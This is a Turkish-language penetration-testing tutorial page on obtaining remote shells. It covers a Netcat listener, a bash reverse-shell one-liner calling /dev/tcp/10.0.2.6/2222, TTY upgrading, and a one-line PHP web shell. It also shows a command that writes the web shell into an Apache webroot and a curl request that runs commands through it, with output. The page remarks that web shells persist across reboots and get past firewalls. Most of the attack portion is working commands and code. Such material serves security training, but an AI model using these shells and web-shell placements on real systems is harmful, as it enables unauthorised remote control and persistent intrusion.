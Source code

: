 ```yaml
---
icon: material/circle-small
search:
  boost: 2
---
```


# Types of Shells

## Reverse Shell

Reverse shell, kontrol elde etmenin en hızlı ve en kolay yöntemi olduğundan en yaygın shell türüdür. Saldırı makinemizdeki dinleyiciye geri bağlantı başlatır.

### Netcat Listener

Reverse shell almak için ilk adım seçilen bir port için Netcat dinleyicisi başlatmaktır:

```bash
nc -l -v -n -p 2222
```

| Flag | Description |
|:---|:---|
| `-l` | Bir bağlantının bağlanması beklenir. |
| `-v` | Ayrıntılı mod kullanılır. |
| `-n` | Bağlantıyı hızlandırmak için DNS çözümlemesi devre dışı bırakılır. |
| `-p` | Port numarası belirtilir. |

### Reverse Shell Command

[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) reposunda bulunan [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) sayfasında reverse shell için kullanılabilecek çeşitli komutların bir listesi bulunur.

Aşağıda örnek bir reverse shell komutu verilmiştir:

```bash
bash -c 'bash -i &> /dev/tcp/10.0.2.6/2222 0<&1'
```

Bu komut hedef makinede çalıştırıldığında Netcat tarafında bağlantı alınabilir.

## Bind Shell

Hedef bilgisayardaki belirli bir porta bağlanır ve saldırı makinesinden bağlantı bekler. [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) sayfasında bind shell için kullanılabilecek çeşitli komutların bir listesi bulunur.

## Upgrading TTY

Uzak bir shell bağlantısında yalnızca komut yazabilir veya ++backspace++ işlevini kullanabiliriz. Ancak komutlarımızı düzenlemek için metin imlecini sola veya sağa hareket ettiremeyiz ya da komut geçmişine erişmek için yukarı aşağı hareket edemeyiz. Bu işlevleri kullanabilmek amacıyla TTY yükseltmesi gerçekleştirilir. Bunun için mevcut makinedeki TTY, uzak makinedeki TTY ile eşleştirilmelidir.

TTY yükseltmek için kullanılan yöntemlerden biri python/stty yöntemidir. Bu yöntemde Netcat ile dinleme gerçekleştirdiğimiz shell Full TTY yapılır:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Bu komutun ardından shell arka plana taşınır. Bu şekilde yerel terminale geri dönülür. Sonrasında aşağıdaki komut ile echo özelliği devre dışı bırakılır:

```bash
stty raw -echo
```

Bu işlemin ardından Netcat shell tekrar ön plana taşınır:

```bash
fg
```

Son olarak yeni bir sekmede başka bir terminal açılır. Aşağıdaki komutlar ile terminale ait profil ve boyut bilgileri görüntülenir:

```bash
echo $TERM && stty size
```

Burada edinilen bilgiler Netcat shell içerisine kopyalanır:

```bash
export TERM=xterm-256color && stty rows 30 columns 120
```

## Web Shell

Web shell, HTTP GET veya HTTP POST istek parametreleri aracılığıyla verilen komutları kabul eder, bu komutları yürütür ve sonuçları web sayfasına yazdırır.

### Writing a Web Shell

Bir web shell script genellikle kısa olan, tek satırlık (one-liner) bir komut dosyasıdır. Aşağıda PHP için örnek bir web shell script verilmiştir:

```php
<?php system($_REQUEST["cmd"]); ?>
```

### Uploading a Web Shell

Web shell dosyasını web tarayıcısı aracılığıyla yürütmek için, script, uzak bilgisayarın web köküne (webroot) yerleştirilmelidir.

Aşağıda bazı web sunucuları için varsayılan web kökleri verilmiştir:

| Web Server | Default Webroot |
|:---|:---|
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ |
| XAMPP | C:\xampp\htdocs\ |

Örneğin Apache çalıştıran bir Linux bilgisayarına saldırıyorsak aşağıdaki komutu kullanabiliriz:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Accessing a Web Shell

Parametre olarak `id` değeri verilerek `id` komutunun çalıştırılması sağlanabilir:

```bash
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bir web shell port üzerinde yeni bir bağlantı açmaz. Bu sayede bazı güvenlik duvarı kısıtlamaları atlanabilir. Ayrıca hedef bilgisayar yeniden başlatılsa bile, web shell, yerinde kalmaya devam eder.
